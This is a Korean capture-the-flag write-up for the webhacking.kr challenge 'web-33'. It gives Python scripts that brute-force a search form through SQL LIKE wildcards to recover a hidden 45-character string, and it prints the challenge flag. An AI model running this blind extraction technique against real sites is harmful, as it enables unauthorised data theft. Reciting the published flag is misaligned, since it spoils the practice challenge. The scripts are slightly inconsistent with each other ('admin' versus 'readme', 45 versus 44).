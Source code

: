 #56
==

테이블이 보이고 검색창이 보인다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMzAw/MDAxNTc5MzU0ODQzNDE0.3PG0DhOPLv2zfpdOZiMvFdaNwe_rXDA-k8erEBBDspsg.xHvxOR53d_ySFtr3PvcLR1tNgOtbFUjf5hAR8i8I6ggg.JPEG.rlaeoghks823/K-069.jpg?type=w773)

이것저것 검색을 해보았더니 다음과 같은 특정 패턴을 알아내었다.

`admin만 나오거나 guest만 나오거나 둘 다 나오거나 아니면 둘 다 안나오거나`

그러면 admin이 나오게 하는 것에는 무엇이 있는가 알기 위해 아래와 같이 파이썬 코드를 작성해보았다.

```python
import requests

answer= ""
for j in range(32,127):
    url = "https://webhacking.kr/challenge/web-33/"
    res = requests.post(url, data={'search': chr(j)})
    if res.text.find('admin') != -1:
        answer=answer+chr(j)
        print(answer)
            
print('정답')
print(answer)
```

그랬더니 다음과 같은 것들이 admin이 나오게 하는 것임을 알 수 있었다.

`%0?ACDEFGHIKLMNOSTUY_acdefghiklmnostuy{}`

여기서 `_` 이것은 임의의 숫자나 문자를 의미한다.  
따라서 `_`을 이용해서 admin이 나오게하는 문구의 글자 수를 알 수 있게된다.

다음과 같이 코드를 작성하여 글자 수를 구해보았다.

```python
import requests

d="_"
for j in range(1,50):
    url = "https://webhacking.kr/challenge/web-33/"
    res = requests.post(url, data={'search': d})
    if res.text.find('readme') != -1:
        d=d+'_'
        print(d)
            
print('정답')
len(d)

답 : 45
```

총 45글자인 것을 알 수 있었다.

모두 종합을 해보면 admin이 나오게하는 문구는 `%0?ACDEFGHIKLMNOSTUY_acdefghiklmnostuy{}` 로 이루어져 있으며 총 45자이다.

따라서 앞에서부터 한자리씩 아스키코드값 32부터 127까지 비교해보면 admin이 나오는 값을 구할 수 있다.

```python
import requests

length_num=44

result='0?ACDEFGHIKLMNOSTUY_acdefghiklmnostuy{}'
readme=''
for i in range(length_num):
    for j in result:
        search = "_"*i + str(j) +"_"*(length_num-1-i)
        url = "https://webhacking.kr/challenge/web-33/"
        res = requests.post(url, data={'search': search})
        if res.text.find('readme') != -1:
            readme+=str(j)
            print(j)
            break
            
print(readme)
```

`FLAG{HIMIKO_TOGA_IS_CUTE_DONT_YOU_THINK_SO?}`

